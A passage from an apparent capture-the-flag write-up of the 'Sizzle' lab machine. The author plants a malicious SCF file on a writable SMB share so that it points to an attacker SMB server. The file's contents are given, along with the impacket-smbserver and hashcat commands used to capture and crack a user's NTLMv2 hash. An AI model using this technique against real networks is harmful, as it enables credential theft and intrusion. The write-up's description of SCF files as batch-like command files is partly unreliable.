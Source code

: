Now that I could find out that I can upload malicious content in the system, I investigate with a search engine those **[executable file extensions for Windows OS](https://en.wikipedia.org/wiki/List_of_file_formats#Object_code,_executable_files,_shared_and_dynamically_linked_libraries){:target="_blank"}**. My next step is to create files with these extensions and see if any system task or even the antivirus does not allow it, but I have no problems, what is done is a cleaning of what I upload in a certain time, something **I must keep in mind**. In Internet I succeed to find a very interesting research that would allow me to **[obtain a hash of a user account of the system just by uploading a malicious SCF file](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/){:target="_blank"}**. So I create the **.scf** file and upload it to the **Public** folder, now when the user browses the resource it will cause a connection to be established to the path I declare inside the file and in this way I get a **NTLMv2** hash that I succeed to crack with `john`.

> **[SCF (Shell Command File)](https://amazingalgorithms.com/file-extensions/scf/){:target="_blank"}** is a file extension developed by **Microsoft** for **Windows operating systems**. It is a type of batch file that contains a series of commands that are executed by the **Windows Command Processor** (`cmd.exe`). **SCF** files are typically used to automate tasks or to create custom menus and shortcuts.

```bash
touch test.{exe,jar,zip,doc,pdf,dll,scf}
watch -n 1 ls -l                    # .. wait.... delete all --> task!

nvim oldb0y.scf
cat oldb0y.scf
```

> **oldb0y.scf**:

```scf
[Shell]
Command=2
IconFile=\\10.10.14.2\smbFolder\oldb.ico
[Taskbar]
Command=ToggleDesktop
```

```
impacket-smbserver smbFolder $(pwd) -smb2support

nvim hash
cat !$
hashcat --example-hashes | grep -i NTLMv2 -A 5 -B 2

hashcat -a 0 -m 5600 hash /usr/share/wordlists/rockyou.txt
```

<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_32.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_33.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_34.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sizzle_writeup/Sizzle_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />